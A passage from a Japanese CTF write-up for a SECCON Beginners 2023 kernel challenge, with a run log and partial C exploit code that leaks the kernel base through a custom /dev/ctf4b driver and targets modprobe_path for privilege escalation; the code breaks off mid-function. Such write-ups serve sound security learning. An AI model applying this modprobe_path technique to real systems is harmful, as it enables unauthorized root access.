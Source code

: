 これでベースアドレスのリークができたことから、後はKASLRが無効である本来の問題と同様の解き方が出来る。これについては既に先人のWriteupが大量に見つかる上に、PAWNYABLEにだいたい載っているのでそちらを参照してほしい。

今回は、先にも述べたように(楽なので)modprobe_pathの書き換えで解いた。rootでシェルを取得した方が見栄えが良いが、面倒なのでフラグが存在する`/root`の権限を777にする事で解いたと見做す。

実際に動かしてみると次のようになる。

```txt
Boot took 1.70 seconds

[ Welcome to SECCON Beginners CTF 2023 ]
~ $ cat /root/flag.txt
cat: can't open '/root/flag.txt': Permission denied
~ $ ./exploit
[+] Kernel Base: ffffffffb4a00000
[+] modprobe_path: ffffffffb583a080
/tmp/pwn: line 1: ޭ��: not found
~ $ cat /root/flag.txt
The flag is written here on the remote server.

~ $ 
```

## Code

```c
#include "../src/ctf4b.h"
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <unistd.h>

unsigned long cpu_entry_area = 0xfffffe0000000000;
unsigned long kernel_base_offset = 0x808e00;
unsigned long modprobe_path_offset = 0xe3a080;

void fatal(const char *msg) {
  perror(msg);
  exit(1);
}

int main() {
  int fd;

  fd = open("/dev/ctf4b", O_RDWR);
  if (fd == -1)
    fatal("/dev/ctf4b");

  unsigned long buf[CTF4B_MSG_SIZE / 8];

  // base leak
  ioctl(fd, CTF4B_IOCTL_STORE, cpu_entry_area+4);
  ioctl(fd, CTF4B_IOCTL_LOAD, buf);

  unsigned long kernel_base = buf[0] - kernel_base_offset;
  unsigned long modprobe_path_addr = kernel_base + modprobe_path_offset;
  printf("[+] Kernel Base: %lx\n", kernel_base);
  printf("[+] modprobe_path: %lx\n", modprobe_path_addr);


  char cmd[] = "/tmp/a.sh\0";
  memcpy(buf, cmd, sizeof(cmd));
```

[^1]: ユーザー空間でも良いがおそらく簡単には見つからないか存在しない